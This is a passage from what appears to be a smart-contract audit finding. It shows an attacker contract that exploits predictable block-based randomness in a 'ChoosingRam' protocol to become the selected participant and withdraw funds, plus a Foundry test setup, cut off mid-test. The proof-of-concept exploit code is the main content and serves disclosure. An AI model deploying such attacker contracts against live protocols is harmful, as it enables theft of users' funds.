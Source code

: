 ```js
        while (!found) {
            random =
            uint256(keccak256(abi.encodePacked(block.timestamp, block.prevrandao, address(this)))) % 2;
            if (random == 0) {
                found = true;
            }
        }
        
        target.increaseValuesOfParticipants(myId, dummy);
    }

    function onERC721Received(address, address, uint256, bytes calldata) external pure override returns (bytes4) {
        return this.onERC721Received.selector;
    }

    function withdraw() public {
        if (msg.sender != owner) {
            revert();
        }

        (bool success, ) = msg.sender.call{value: address(this).balance}("");
        if (!success) {
            revert();
        }
    }

    receive() external payable {}
}
```
- The contract should be able to receive ether (so it can enter the protocol and claim the reward)
- The contract should be able to receive NFTs
- A withdraw function for the attacker to withdraw the funds

This foundry test shows that the attacker can call the function 5 times and become `ChoosingRam::selectedRam`:
```js
function setUp() public {
	vm.startPrank(organiser);
	ramNFT = new RamNFT();
	choosingRam = new ChoosingRam(address(ramNFT));
	dussehra = new Dussehra(1 ether, address(choosingRam), address(ramNFT));
	ramNFT.setChoosingRamContract(address(choosingRam));
	vm.stopPrank();

	vm.startPrank(attacker);
	attack = new AttackChoosingRam(address(choosingRam));
	vm.stopPrank();

	vm.deal(address(attack), 10 ether);
	vm.deal(player1, 10 ether);

	vm.startPrank(address(attack));
	dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
	vm.stopPrank();

	vm.startPrank(player1);
	dussehra.enterPeopleWhoLikeRam{value: 1 ether}();
	vm.stopPrank();
}

function test_attackWorks() public {
	vm.startPrank(attacker);
```